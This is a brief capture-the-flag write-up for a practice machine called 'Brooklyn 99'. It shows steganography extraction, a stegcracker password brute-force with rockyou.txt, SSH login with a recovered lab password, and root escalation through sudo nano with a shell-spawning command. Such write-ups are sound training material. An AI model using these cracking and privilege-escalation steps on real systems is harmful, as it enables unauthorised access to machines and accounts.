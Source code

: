 ## Brooklyn 99

## Inspect IP first
Found website. Has image and text. with a comment about steganography

Started inspecting the image.

```
exiftool brooklyn99.jpg 
```
Metadata doesnt show much

```
steghide --extract -sf brooklyn99.jpg 
```
Found a prompt asking for a password

Used stegcracker to try find a password

```
stegcracker brooklyn99.jpg rockyou.txt
```

found the password admin. after finding entering the password into the previous prompt we get
```
Holts Password:
fluffydog12@ninenine

Enjoy!!

```

ssh in using holt@Machineip and we find the flag in user.txt and a nano.save which we dont have permissions for

sudo -l shows we can run nano as sudo

ran the following commands to get root shell 
```
sudo /bin/nano
ctrl-r ctrl-x
reset; bash 1>&0 2>&0
```

once we get a root shell its easy to just go to the root folder to find root.txt